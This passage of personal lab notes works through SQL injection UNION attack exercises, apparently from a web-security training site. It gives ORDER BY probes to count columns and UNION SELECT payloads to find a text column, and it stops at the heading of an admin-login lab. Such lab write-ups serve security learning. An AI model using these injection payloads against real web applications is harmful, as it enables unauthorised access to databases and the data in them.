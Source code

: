 Generally, you want to exfiltrate strings. So, you need to find something you can select that is a string.

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```

## [LAB] SQL injection UNION attack, determining the number of columns returned by the query

Goal: Determine number of columns returned by query.

Solution: Click on any of the categories. Notice category URL parameter.

```
' ORDER BY 3--
```

has no error.

```
' ORDER BY 4--
```

returns with an error. Therefore there are 3 columns.

Looking back at the description:

```
To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values. 
```

I made the parameter this:

```
gifts' UNION SELECT null, null, null--
```

and solved the lab.

## [LAB] SQL injection UNION attack, finding a column containing text

Goal: Make the database retrieve the string: 'tSMY0l'

Solution: Append to URL:

```
' UNION SELECT null, 'kMjIj9', null--
```

## [LAB] Using an SQL injection UNION attack to retrieve interesting data

Goal: Login as Admin
